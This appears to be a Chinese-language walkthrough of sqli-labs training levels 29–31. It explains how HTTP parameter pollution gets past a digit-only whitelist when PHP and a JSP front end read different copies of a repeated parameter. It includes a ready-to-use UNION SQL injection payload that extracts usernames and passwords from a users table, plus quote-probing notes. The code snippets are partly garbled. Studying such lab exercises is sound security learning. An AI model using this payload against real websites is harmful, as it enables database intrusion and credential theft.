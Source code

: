 ```php

function whitelist($input)
{
    # 过滤规则 检测数字
    $match = preg_match("/^\d+$/", $input);
    if 不符合规则：
        header('Location: hacked.php');
}
```

从代码中还是很容易发现问题的，关键问题出在下面的地方：

```php
$id1=java_implimentation($qs);
...
whitelist($id1);
whitelist` 过滤是比较严格的，如果 id 不是数字的话就会直接重定向到 `hacked.php`，这里是没毛病的。那么问题出在了这里函数`$id1=java_implimentation($qs);
```

因为 return 表示了函数的结束运行，所以这个函数捕捉到 id 的时候就会返回 `return $id_value`，这样就导致了 用户加入构造两组 id 的话，那么后面的 id 就会绕过函数检测。

假设用户输入这样的语句：

```php
index.php?id=1&id=2
```

Apache PHP 会解析最后一个参数

Tomcat JSP 会解析第一个参数

知道这个原理的话后面尝试直接注入吧：

```payload
login.php?id=1&id=-2' union select 1,2,(SELECT+GROUP_CONCAT(username,password+SEPARATOR+0x3c62723e)+FROM+users)--+
```

(有点懵，直接贴国光大佬的原话)

# Less 30

GET - BLIND - IMPIDENCE MISMATCH- Having a WAF in front of web application.
GET-盲注-IMPIDENCE不匹配-有一个WAF在前面的Web应用程序。

和 Less-29 相比没有啥本质变化，只是拼接方式换成了id=1&id=0" 

# Less-31

加单引号--未报错

加双引号--报错

尝试双引号+右括号  ”)  再加注释 -- 未报错
